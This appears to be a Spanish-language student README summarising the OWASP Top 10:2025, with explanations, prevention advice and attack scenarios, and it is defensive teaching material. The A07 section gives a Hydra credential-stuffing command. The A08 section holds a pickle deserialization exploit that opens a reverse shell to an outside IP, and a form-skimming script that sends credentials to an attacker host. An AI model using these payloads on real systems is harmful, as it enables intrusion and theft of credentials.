



# OWASP Top 10:2025

## 👥 Integrantes

<p align="left">
  
  <br>
  
  <br>
  
  <br>
  
  <br>
  
</p>

---

## 📊 Comparativa OWASP Top 10 (2021 vs 2025)

| Pos. | OWASP Top 10 (2021) | OWASP Top 10 (2025) | Cambio / Comportamiento | Descripción breve |
| :---: | :--- | :--- | :---: | :--- |
| **#1** | Control de acceso averiado | Control de acceso defectuoso | 🟰 **Sin cambio** | Sigue liderando la lista; absorbe vulnerabilidades como SSRF. |
| **#2** | Fallos criptográficos | Configuración de seguridad incorrecta | ⬆️ **Subió 3 puestos** | Aumentó por errores en nubes, contenedores y entornos. |
| **#3** | Inyección | Fallos en la cadena de suministro de software | 🆕 **Nuevo ingreso** | Enfocado en dependencias, compilaciones y código de terceros. |
| **#4** | Diseño inseguro | Fallos criptográficos | ⬇️ **Bajó 2 puestos** | Baja de posición por mejoras globales en el uso de cifrado TLS. |
| **#5** | Configuración de seguridad incorrecta | Inyección | ⬇️ **Bajó 2 puestos** | Desciende gracias al uso generalizado de consultas parametrizadas. |
| **#6** | Componentes vulnerables y obsoletos | Diseño inseguro | ⬇️ **Bajó 2 puestos** | Refleja mayor esfuerzo en la fase de modelado de amenazas. |
| **#7** | Fallos de identificación y autenticación | Fallos de autenticación | 🟰 **Sin cambio** | Simplifica su nombre; persisten problemas de gestión de sesiones. |
| **#8** | Fallos en la integridad del software y los datos | Fallos en la integridad del software o de los datos | 🟰 **Sin cambio** | Verifica que actualizaciones y datos no sean alterados. |
| **#9** | Fallos en el registro y la monitorización de seguridad | Fallos en el registro y las alertas de seguridad | 🟰 **Sin cambio** | Enfatiza que registrar no sirve sin alertas activas. |
| **#10** | Falsificación de solicitud del lado del servidor (SSRF) | Mala gestión de situaciones excepcionales | 🆕 **Nuevo ingreso** | Creada para errores de lógica en tiempo de ejecución. |


---
## A01:2025 - Control de acceso defectuoso
###  🛡️ ¿Qué es?
Es una falla donde la aplicación no restringe correctamente lo que los usuarios autenticados pueden hacer. Esto permite que un atacante robe información, destruya datos o ejecute funciones sin permiso.
### 🚨 Formas comunes en que ocurre:
- Principio roto: Dar acceso general a algo que debería estar restringido por defecto.
- Manipulación de URLs o APIs: Cambiar parámetros, URLs o solicitudes para ver datos de otros (como cambiar un número de cuenta o usar herramientas como curl).
- IDOR: Ver o editar la cuenta de otra persona alterando su identificador único.
- Elevación de privilegios: Actuar como administrador sin serlo o manipular tokens (como JWT) o cookies para ganar más permisos.
- Navegación forzada: Entrar a páginas protegidas o de administración escribiendo la ruta directamente sin tener el rol adecuado.
### 🛠️ ¿Cómo prevenirlo?
- Denegar por defecto: Todo debe estar bloqueado a menos que sea un recurso público.
- Validación en el servidor: Nunca confíes solo en la interfaz de usuario o JavaScript; la seguridad debe validarse en el servidor.
- Lógica segura: Asegúrate de que los usuarios solo puedan acceder a sus propios registros y no a los de los demás.
- Control de tokens: Haz que los tokens (JWT) tengan poca duración y asegúrate de cerrar sesiones correctamente.
- Pruebas: Incluye pruebas unitarias y de integración enfocadas en verificar los permisos.
  
### 📝 Ejemplos de escenarios de ataque
Escenario n.° 1: La aplicación utiliza datos no verificados en una llamada SQL que accede a información de la cuenta:

```java
pstmt.setString(1, request.getParameter("acct"));
ResultSet results = pstmt.executeQuery( );
```
Un atacante puede modificar fácilmente el parámetro 'acct' del navegador para enviar cualquier número de cuenta deseado. Si no se verifica correctamente, el atacante puede acceder a la cuenta de cualquier usuario.
```java
https://example.com/app/accountInfo?acct=notmyacct
```


---

## A02:2025 - Configuración de seguridad incorrecta
### 🛡️ ¿Qué es?
Ocurre cuando un sistema, aplicación o servicio en la nube se configura incorrectamente desde el punto de vista de la seguridad, creando vulnerabilidades. Aparece debido al uso de software altamente configurable y afecta a una gran cantidad de aplicaciones si no se implementa un proceso seguro.

### 🚨 Formas comunes en que ocurre:
- Falta de seguridad o permisos incorrectos: Carencia de medidas adecuadas en la pila de aplicaciones o permisos mal configurados en servicios de la nube.
- Funciones innecesarias: Mantener instaladas o habilitadas funciones, puertos, servicios, páginas, marcos de prueba o privilegios que no se utilizan.
- Credenciales por defecto: Cuentas predeterminadas y sus contraseñas originales siguen habilitadas y sin cambios.
- Errores excesivos: Falta de configuración centralizada para interceptar fallos, mostrando rastreos de pila u otros mensajes demasiado informativos a los usuarios.
- Inseguridad predeterminada: Funciones de seguridad recientes desactivadas, priorización excesiva de compatibilidad con versiones anteriores, o servidores que no envían encabezados y directivas de seguridad seguras.
  
### 🛠️ ¿Cómo prevenirlo?
- Proceso de endurecimiento automatizado (Hardening): Implementar un proceso repetible y automatizado para configurar entornos (desarrollo, pruebas y producción) de forma idéntica pero con credenciales diferentes.
- Plataforma minimalista: Eliminar o no instalar funciones, componentes, documentación ni marcos de trabajo innecesarios.
- Actualización y revisión: Revisar configuraciones, parches y permisos de almacenamiento en la nube (como buckets de S3). 
- Arquitectura segmentada: Proveer separación segura entre componentes mediante segmentación, contenerización o grupos de seguridad en la nube (ACL).
- Control de errores y encabezados: Enviar directivas de seguridad a los clientes y configurar una intercepción centralizada para los mensajes de error excesivos.
- Gestión segura de credenciales: Evitar claves estáticas en el código y utilizar credenciales de corta duración, federación de identidades o accesos basados en roles.

### 📝 Ejemplos de escenarios de ataque
Escenario n.° 1 (Aplicaciones de ejemplo y credenciales por defecto): El servidor de producción incluye aplicaciones de ejemplo no eliminadas (como una consola de administración) con sus contraseñas predeterminadas intactas, permitiendo que un atacante inicie sesión y tome el control.


---

## A03:2025 - Fallos en la cadena de suministro de software

### 📋 ¿Qué es?

**A03:2025 - Software Supply Chain Failures** corresponde a los fallos de seguridad presentes en la cadena de suministro del software.
Es una de las modificaciones importantes del OWASP Top 10:2025. En 2021 existía A06 – Vulnerable and Outdated Components, pero en 2025 OWASP amplió considerablemente el concepto para cubrir no solamente componentes vulnerables, sino todo el ecosistema utilizado para construir, distribuir y actualizar software

Esta categoría analiza los riesgos asociados con:

- Dependencias de terceros.
- Librerías y frameworks.
- Paquetes de software.
- Dependencias transitivas.
- Repositorios.
- Herramientas de desarrollo.
- Procesos CI/CD.
- Artefactos de software.
- Proveedores externos.
- Componentes desactualizados o abandonados.

> 💡 Una aplicación puede tener un código propio seguro, pero si utiliza un componente externo vulnerable o comprometido, la aplicación también puede quedar expuesta.

### 🔄 Cadena de suministro de software

```text
Desarrollador
      ↓
Código fuente
      ↓
Dependencias
      ↓
Repositorio de paquetes
      ↓
CI/CD
      ↓
Build
      ↓
Artefacto
      ↓
Producción
```

### 🚨 ¿Cómo ocurre una vulnerabilidad A03?
Imagina que una aplicación Java utiliza:
```java
Aplicación
   ↓
Spring
   ↓
Log4j
```
El desarrollador puede haber escrito código completamente correcto.
Pero si Log4j tiene una vulnerabilidad crítica, la aplicación hereda ese riesgo.
Esto es especialmente peligroso porque muchas aplicaciones tienen:

```text
Dependencia directa
       ↓
Dependencia transitiva
       ↓
Otra dependencia
       ↓
Otra dependencia
```
Por ejemplo:
```text
Mi aplicación
 ├── framework A
 │    ├── biblioteca B
 │    │    └── biblioteca vulnerable C
 │    └── biblioteca D
 └── biblioteca E
```
El desarrollador quizá ni siquiera sabe que utiliza C.
Por eso OWASP 2025 hace especial énfasis en las dependencias transitivas
### 📌 Caso real más reciente: Shai-Hulud

OWASP 2025 también incluye el ataque Shai-Hulud de 2025.
Se trató de un ataque relacionado con el ecosistema npm, donde se distribuyeron versiones maliciosas de paquetes.
Según OWASP, el malware podía:
```text
infectar entorno
     ↓
extraer información sensible
     ↓
buscar tokens npm
     ↓
utilizar tokens
     ↓
publicar versiones maliciosas
     ↓
infectar más paquetes
```
OWASP señala que llegó a afectar más de 500 versiones de paquetes antes de ser interrumpido.
Este ejemplo es excelente para explicar por qué A03:2025 ya no se limita a:
"Tengo una librería con un CVE".
Ahora hablamos de todo el ecosistema de confianza del software.

### 👁️ Herramientas de prevencion
- Snyk
- Dependabot
- OWASP Dependency-Check
- GitHub Advanced Security
- herramientas de SBOM

### 🛡️ Prevención y mitigación
- ✅ Detener y Aislar: Bloquea el despliegue del componente afectado y retira de producción los contenedores o paquetes comprometidos.
- ✅ Revocar Claves: Invalida de inmediato todos los tokens de CI/CD, credenciales y certificados de firma que pudieron quedar expuestos.
- ✅ Parchear o Sustituir: Actualiza la dependencia a una versión corregida; si no existe parche, reemplaza la librería o aplica una regla de mitigación temporal.
- ✅ Bloquear Reincidencias: Añade la regla en tus herramientas SCA (Snyk, Dependabot) para rechazar automáticamente cualquier intento futuro de compilar con la versión vulnerable
- 🧪Gestión de Inventario (SBOM): Genera e inspecciona de forma explícita el inventario de software y dependencias (usando herramientas como CycloneDX o Syft) para auditar vulnerabilidades (CVEs).
- 🧪Integridad de Código: Fija versiones exactas (lockfiles) con firmas y hashes SHA-256; evita usar etiquetas como :latest. Firma artefactos mediante Sigstore/Cosign.
- 🧪Control de Repositorios: Utilice proxies o gestores internos (ej. Nexus, Artifactory) para bloquear ataques de Dependency Confusion y Typosquatting.
- 🧪Seguridad en CI/CD: Aplique el principio de menor privilegio a tokens de automatización, use runners efímeros e implemente el marco SLSA.


---
## A04:2025 — Cryptographic Failures
### 📋 ¿Qué es A04?

A04:2025 – Cryptographic Failures son errores relacionados con la protección criptográfica de la información.
OWASP explica que incluye problemas como:

- ausencia de cifrado;
- cifrado débil;
- algoritmos inseguros;
- mala administración de claves;
- claves expuestas;
- generación aleatoria insegura;
- reutilización de claves;
- problemas con IV/nonce;
- hashes inseguros;
- errores de validación de certificados;
- downgrade criptográfico.

### 🧱 ¿Qué intenta proteger la criptografía?
Principalmente:
- Confidencialidad : Que nadie pueda leer
- Integridad : Que nadie pueda modificar
- Autenticidad : Este mensaje realmente proviene de quien dice enviarlo

### 🚨 Principales Causas del Fallo

- Transmisión en texto plano: Uso de protocolos inseguros (HTTP, FTP, SMTP sin TLS) que permiten la intercepción de tráfico (Man-in-the-Middle).
- Algoritmos obsoletos o débiles: Uso de esquemas vulnerables o rotos como MD5, SHA-1, DES o RC4.
- Manejo deficiente de claves: Hardcodear claves secretas en el código fuente, almacenarlas en repositorios o no rotarlas periódicamente.
- Hashing inseguro de contraseñas: Guardar contraseñas sin salt o usando funciones rápidas no diseñadas para contraseñas (como MD5 o SHA-256 estándar en lugar de Argon2, bcrypt o PBKDF2).
- Falta de vectores de inicialización (IV): Reutilizar IVs o emplear modos de cifrado inseguros como Electronic Codebook (ECB).

Ejemplo extremadamente sencillo
Sin cifrado:
```text
Usuario
  |
  | contraseña=Daniel123
  |
  ↓
Servidor
```
Si alguien puede interceptar la comunicación:
```text
Atacante
   ↓
contraseña=Daniel123
```
Con TLS:
```text
Usuario
  |
  | 🔒 datos cifrados
  |
  ↓
Servidor
```
El atacante podría observar tráfico, pero no debería poder obtener el contenido protegido simplemente capturando los paquetes.

### 🛡️ Prevención y mitigación
- ✅ Protección en Tránsito: Forzar HTTPS mediante HSTS y usar únicamente versiones seguras del protocolo (TLS 1.2 o TLS 1.3). Deshabilitar protocolos en texto plano (HTTP, FTP).
- ✅ Protección en Reposo: Cifrar datos sensibles (PII, financieras) con algoritmos modernos y robustos como AES-256-GCM.
- ✅ Protección de Contraseñas: Usar funciones de hash adaptativas con salt automático diseñadas para credenciales (como Argon2id o bcrypt), evitando hashes simples como MD5 o SHA-256.
- ✅ Gestión de Claves: Guardar claves y secretos fuera del código fuente mediante gestores dedicados (AWS Secrets Manager, HashiCorp Vault) y rotarlos periódicamente.
- ✅ Eliminar Criptografía Débil: Prohibir esquemas obsoletos o inseguros (DES, RC4, MD5, SHA-1, modo ECB).


## A05:2025 Inyección

### 🛡️ ¿Qué es?

Una inyección ocurre cuando una aplicación recibe información sin validarla y la interpreta como una instrucción o comando, permitiendo que un atacante consulte, modifique o elimine información sin autorización.

### 🧱 ¿Cómo prevenir una inyección?

- **Validar los datos:** Revisar que la información ingresada sea correcta y permitida.
- **Separar datos y comandos:** Evitar que la aplicación confunda la información del usuario con instrucciones del sistema.
- **Usar consultas parametrizadas:** Enviar los datos como valores independientes, sin unirlos directamente a una consulta.
- **Limitar los permisos:** Permitir que cada usuario o sistema acceda únicamente a lo necesario.
- **Realizar pruebas de seguridad:** Revisar el código y probar la aplicación antes de publicarla.

### 📝 Ejemplo de ataque



## A06:2025 - Diseño Inseguro

### 🛡️ ¿Qué es?

Categoría amplia que representa diferentes debilidades, expresadas como "diseño de control ausente o ineficaz".
Ocurre cuando un sistema, programa o aplicación se planea sin incluir los controles de seguridad necesarios para proteger la información y prevenir posibles ataques.
Es decir, el diseño inseguro es diferente a un error de implementación, aquí los controles no fueron considerados o definidos desde el comienzo.
Por esta razón, aunque, el sistema sea desarrollado correctamente, puede continuar siendo vulnerable.



### 🧱 ¿Cómo prevenir el diseño inseguro?

- **Incluir la seguridad desde el inicio:** Considerarse desde la planeación y mantenerse durante el desarrollo de la aplicación.
- **Identificar las posibles amenazas:** Analizar los riesgos que puedan afectar la autenticación, el control de acceso, los datos y funciones criticos del sistema.
- **Utilizar diseños y componentes seguros:** Usar patrones, herramientas y componentes de seguridad que hayan sido revisados y aprobados.
- **Definir controles de seguridad:** Cada requisito o función del sistema debe establecer quién puede acceder, que acciones pueden realizar.
- **Validar la información en todos los niveles:** Comprobar los datos tanto en la parte visible de la aplicación como en los procesos internos del sistema.
- **Realizar pruebas de seguridad:** Es necesario probar los flujos normales y los casos inesperados para verificar que los controles funcionen.
- **Separar los sistemas y la información:** Las capas, redes, usuarios y datos deben mantenerse separados según las necesidad de acceso y protección.
- **Promover una cultura de seguridad:** Todo el equipo debe conocer los riesgos, aprender de los errores, y considerar la seguridad en cada decisión del proyecto.

### 📝 Ejemplo de ataque

.

## A07:2025 – Fallos de Autenticación

### ¿Qué es?
Vulnerabilidades que permiten a un atacante suplantar una identidad legítima o evadir la autenticación, operando con los privilegios de un usuario sin tener credenciales válidas.

### Formas comunes en que ocurre
- Falta de *rate limiting* → permite ataques de fuerza bruta automatizados
- Contraseñas débiles o filtradas sin validación
- MFA débil (SMS, preguntas secretas) o ausente
- Sesiones mal gestionadas: no se regenera el ID al iniciar sesión (*Session Fixation*), cookies sin `HttpOnly`/`Secure`
- Tokens/JWT que no se revocan al cerrar sesión

### Ejemplos de ataque reales

#### Escenario n.° 1: Credential Stuffing contra endpoint de API desprotegido

Una aplicación web expone un servicio REST en `/api/v1/auth/login` que no implementa CAPTCHA, bloqueo por intentos repetidos ni autenticación de múltiples factores. Un atacante toma un volcado de cuentas filtradas y automatiza el envío masivo mediante Hydra:

```bash
hydra -L usuarios_filtrados.txt -P contrasenas_filtradas.txt api.empresa.local http-post-form \
"/api/v1/auth/login:{\"email\":\"^USER^\",\"password\":\"^PASS^\"}:H=Content-Type: application/json:F=Credenciales invalidas"
```

El servidor recibe miles de solicitudes sucesivas como la siguiente:

```http
POST /api/v1/auth/login HTTP/1.1
Host: api.empresa.local
Content-Type: application/json

{
  "email": "carlos.mendoza@empresa.local",
  "password": "Password123*"
}
```

- **Mecánica del ataque:** Al no haber un mecanismo que detenga las solicitudes consecutivas desde la misma dirección IP o hacia la misma cuenta, el script valida credenciales coincidentes.
- **Resultado:** El backend devuelve una respuesta exitosa (`HTTP 200 OK`) con un token Bearer (`Bearer eyJhbGci...`), concediendo al atacante acceso inmediato a la cuenta de la víctima sin levantar alertas de bloqueo.

#### Escenario n.° 2: Secuestro por fijación de sesión (Session Fixation)

El sistema genera una cookie de sesión cuando un usuario anónimo visita el sitio y **no regenera este identificador** una vez que el usuario se autentica satisfactoriamente.

1. El atacante accede al sitio y extrae el identificador asignado:
```http
Set-Cookie: SESSIONID=sesion_trampa_98765; Path=/; HttpOnly
```

2. El atacante elabora un enlace y se lo envía a la víctima mediante ingeniería social:
```text
https://sistema.empresa.local/login?SID=sesion_trampa_98765
```

3. La víctima hace clic en el enlace e ingresa su usuario y contraseña legítimos. El servidor valida la cuenta pero vincula los derechos del usuario al identificador prefijado `sesion_trampa_98765`.

4. El atacante, quien ya posee ese valor de sesión, realiza una petición directa al sistema:
```http
GET /api/cuenta/balance HTTP/1.1
Host: sistema.empresa.local
Cookie: SESSIONID=sesion_trampa_98765
```

- **Resultado:** El servidor procesa la solicitud asumiendo que proviene de la víctima, permitiendo al atacante visualizar datos bancarios o realizar acciones administrativas sin haber conocido nunca la contraseña.


### Cómo prevenirlo
- MFA obligatorio (FIDO2/WebAuthn, TOTP — no SMS)
- Contraseñas ≥12 caracteres, validadas contra listas de filtraciones (Have I Been Pwned)
- *Rate limiting* por IP/cuenta + mensajes de error genéricos
- Regenerar el ID de sesión tras login exitoso; cookies con `Secure`, `HttpOnly`, `SameSite=Strict`
- Expiración de sesión por tiempo e inactividad

---

## A08:2025 – Fallos de Integridad del Software o de los Datos

### ¿Qué es?
Ocurre cuando una aplicación confía en código, dependencias o datos sin verificar su procedencia o integridad (firma, checksum), rompiendo la cadena de confianza.

### Formas comunes en que ocurre
- Actualizaciones/plugins descargados sin verificar firma digital
- Deserialización insegura de datos no confiables (`pickle`, `serialize()`)
- Dependencias externas sin fijar versión ni verificar integridad
- Pipelines CI/CD sin protección, permitiendo alterar el código antes de producción

### Ejemplos de ataque reales

#### Escenario n.° 1: Ejecución Remota de Código mediante Deserialización Insegura

Una aplicación web escrita en Python almacena el perfil y los privilegios de navegación del usuario en una cookie serializada con la biblioteca nativa `pickle` sin ningún mecanismo de firma o cifrado:

```python
# Código vulnerable en el backend de la aplicación
@app.route('/panel')
def panel():
    cookie_usuario = request.cookies.get('datos_perfil')
    # Vulnerabilidad: deserialización de datos provistos por el usuario sin verificar integridad
    perfil = pickle.loads(base64.b64decode(cookie_usuario))
    return f"Bienvenido, {perfil['usuario']}"
```

El atacante utiliza el método mágico `__reduce__` de Python para construir un payload que instruya al servidor a ejecutar comandos del sistema operativo tan pronto como el objeto sea deserializado:

```python
import pickle, base64, os

class GeneradorExploit:
    def __reduce__(self):
        # Inyección de comando para ejecutar una terminal interactiva inversa
        comando = "bash -c 'bash -i >& /dev/tcp/192.168.1.50/4444 0>&1'"
        return (os.system, (comando,))

payload = base64.b64encode(pickle.dumps(GeneradorExploit())).decode()
print(payload)
```

El atacante envía la solicitud maliciosa:

```http
GET /panel HTTP/1.1
Host: empresa.local
Cookie: datos_perfil=gASVIQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjCViYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguMS41MC80NDQ0IDA+JjEnlIWUUpQu
```

- **Mecánica del ataque:** Al llamar a `pickle.loads()`, el entorno de ejecución reconstruye la clase y dispara de manera inmediata `os.system` con los argumentos inyectados.
- **Resultado:** El atacante establece una conexión de consola interactiva (*reverse shell*) con los mismos privilegios del proceso del servidor web, tomando el control de la máquina.

#### Escenario n.° 2: Manipulación en Tránsito de scripts de CDN sin SRI

Una aplicación web incluye bibliotecas de terceros consumidas directamente desde una red de distribución externa (CDN) sin declarar el atributo de integridad del subrecurso (*Subresource Integrity*):

```html
<!-- Vulnerabilidad: No se incluye el atributo integrity -->
<script src="https://cdn-externo.com/librerias/formulario-seguro.js"></script>
```

1. El atacante logra comprometer el servidor de la CDN externa o aprovecha un ataque Man-in-the-Middle en una red intermedia no autenticada.

2. Modifica el archivo `formulario-seguro.js` agregando código que intercepta las pulsaciones de teclado y los eventos de envío:
```javascript
// Código malicioso inyectado dentro del archivo servido por la CDN
document.addEventListener('submit', function(e) {
    let credenciales = {
        usuario: document.getElementById('user_input').value,
        clave: document.getElementById('pass_input').value
    };
    fetch('https://servidor-atacante.com/robo', {
        method: 'POST',
        body: JSON.stringify(credenciales)
    });
});
```

- **Mecánica del ataque:** Como el navegador de los usuarios no tiene una directiva `integrity` para contrastar el hash SHA del archivo descargado con un valor esperado, carga y ejecuta el script sin advertencias.
- **Resultado:** El código modificado opera con pleno acceso al Document Object Model (DOM) del sitio legítimo, capturando y exfiltrando credenciales corporativas en tiempo real.
  


### Cómo prevenirlo
- Usar **SRI** (`integrity` + `crossorigin`) en scripts externos
- Firmar digitalmente binarios y actualizaciones (Sigstore/Cosign)
- Mantener SBOM (CycloneDX) e integrar SCA (OWASP Dependency-Check/Track)
- Evitar serialización nativa para datos de clientes; usar JSON/Protobuf con esquema estricto
- Proteger CI/CD: privilegios mínimos, revisión por pares obligatoria

## A09:2025 - Fallos en el registro y las alertas de seguridad

### 🛡️ ¿Qué es?

Ocurre cuando la aplicación no guarda registro de lo que pasa (inicios de sesión, errores, accesos) y no tiene alertas para avisar cuando algo raro ocurre. Esto permite que un atacante actúe sin ser detectado.

### 🚨 Métodos de explotación comunes

- **Falta de registros:** No se guardan eventos importantes como intentos de acceso fallidos.
- **Alertas ineficaces:** Hay tantas alertas falsas que las importantes pasan desapercibidas.
- **Registros inseguros:** Los archivos de registro pueden ser modificados o borrados por el atacante.
- **Sin monitoreo:** Nadie revisa los registros para detectar actividades sospechosas.

### 🛠️ Mejores prácticas de prevención

- Registrar todos los eventos de seguridad (accesos, errores, cambios).
- Proteger los registros para que no puedan ser alterados.
- Configurar alertas reales con umbrales claros (no generar falsas alarmas).
- Monitorear los registros de forma centralizada.
- Tener un plan de respuesta para cuando salte una alerta.

### 📝 Ejemplo de ataque

Un banco no registra los intentos de acceso fallidos. Un atacante prueba miles de contraseñas durante días y nadie se da cuenta. Finalmente logra entrar y roba información de clientes. La brecha se descubre meses después, cuando un cliente reporta cargos no reconocidos.


---

## A10:2025 - Mala gestión de situaciones excepcionales

### 🛡️ ¿Qué es?

Es una categoría nueva. Ocurre cuando el sistema no sabe cómo reaccionar ante errores inesperados. Por ejemplo, si algo falla, el sistema puede mostrar información sensible (como el código interno) o peor aún, dar acceso al atacante "por si acaso".

### 🚨 Métodos de explotación comunes

- **Mostrar errores internos:** Al fallar, el sistema muestra detalles técnicos (rutas de archivos, versiones, etc.).
- **Fallo abierto (fail-open):** Si algo sale mal, el sistema da acceso en lugar de denegarlo.
- **Errores no registrados:** El sistema falla pero nadie lo sabe porque no quedó registro.
- **Casos límite no probados:** Los atacantes buscan situaciones que los desarrolladores no consideraron.

### 🛠️ Mejores prácticas de prevención

- Mostrar mensajes de error amigables sin información técnica sensible.
- Diseñar el sistema para que ante un error, siempre deniegue el acceso (fail-closed).
- Registrar todos los errores para poder investigarlos después.
- Probar qué pasa cuando el sistema recibe entradas inesperadas.

### 📝 Ejemplo de ataque

Un atacante envía un dato malformado a un formulario. La aplicación falla y muestra en pantalla toda la ruta del servidor, la versión del framework y el nombre de la base de datos. Con esa información, el atacante puede buscar vulnerabilidades específicas de esa versión y planear un ataque más grave.


### 📚 Fuentes

### Top 10:2025 List

- [A01:2025 - Broken Access Control](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)
- [A02:2025 - Security Misconfiguration](https://owasp.org/Top10/2025/A02_2025-Security_Misconfiguration/)
- [A03:2025 - Software Supply Chain Failures](https://owasp.org/Top10/2025/A03_2025-Software_Supply_Chain_Failures/)
- [A04:2025 - Cryptographic Failures](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)
- [A05:2025 - Injection](https://owasp.org/Top10/2025/A05_2025-Injection/)
- [A06:2025 - Insecure Design](https://owasp.org/Top10/2025/A06_2025-Insecure_Design/)
- [A07:2025 - Authentication Failures](https://owasp.org/Top10/2025/A07_2025-Authentication_Failures/)
- [A08:2025 - Software or Data Integrity Failures](https://owasp.org/Top10/2025/A08_2025-Software_or_Data_Integrity_Failures/)
- [A09:2025 - Security Logging and Alerting Failures](https://owasp.org/Top10/2025/A09_2025-Security_Logging_and_Alerting_Failures/)
- [A10:2025 - Mishandling of Exceptional Conditions](https://owasp.org/Top10/2025/A10_2025-Mishandling_of_Exceptional_Conditions/)
